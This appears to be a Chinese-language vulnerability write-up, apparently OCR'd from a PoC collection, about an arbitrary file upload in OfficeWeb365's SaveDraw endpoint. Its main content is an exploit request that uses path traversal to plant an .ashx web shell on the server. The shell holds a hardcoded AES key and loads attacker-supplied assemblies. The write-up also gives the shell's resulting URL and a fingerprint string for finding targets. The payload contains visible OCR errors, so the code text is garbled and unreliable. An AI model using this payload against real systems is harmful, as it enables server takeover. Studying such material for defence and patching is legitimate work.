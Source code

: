 # OfficeWeb365 SaveDraw 任意文件上传漏洞

## 漏洞描述

OfficeWeb365 SaveDraw 接口存在任意文件上传漏洞，攻击者通过漏洞可以在服务器中上传任意文件获取服务器权限

## 漏洞影响

<a-checkbox checked>OfficeWeb365 </a-checkbox></br>

## 网络测绘

<a-checkbox checked>"OfficeWeb365"</a-checkbox></br>

## 漏洞复现

产品页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1665984265863-0522ce25-d026-4e30-9ddc-4f690b84b19d.png)

验证POC

```java
POST /PW/SaveDraw?path=../../Content/img&idx=6.ashx HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.434.18 Safari/537.36
Content-Length: 990
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Connection: close

data:image/png;base64,01s34567890123456789y12345678901234567m91<%@ WebHandler Language="C#" Class="Handler" %>using System;using System.I0;using System.Reflection;using System.Text;using System.Web;using System.WebSessionState;using&System.Security.Cryptography;public class Handler : IHttpHandler,IRequiresSessionState{public void=&ProcessRequest(HttpContext context){try{string key="900bc885d7553375";byteDk=&Encoding.Default.GetBytes(key);context.Session.AddC"sky", key);StreamReader sr=new&StreamReader(contextRequest.InputStream);string line=sr.ReadLine;if(!string.IsNullOrEmpty(line)){byteDc=&Convert.FromBase64String(line);Assembly assembly=&typeof(Environment).Assembly;RijndaelManaged rm=(RijndaelManaged)&assembly.CreateInstance("System.Secur"+"ityCrypto"+"graphy.Rijnda"+"elm anaged");byte[ data=rm.CreateDecryptorCk,k)TransformFinalBlock(c,0, c.Length);Assembly.Load(data)CreateInstance("U").Equals(context);sr.clo se();}}catch {}}public bool IsReusable{get{return false;}}}}---
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1665984405457-e01e0fa8-4ddd-4998-ab86-f0d3c6200283.png)

上传地址

```java
/Content/img/UserDraw/drawPW6.ashx
```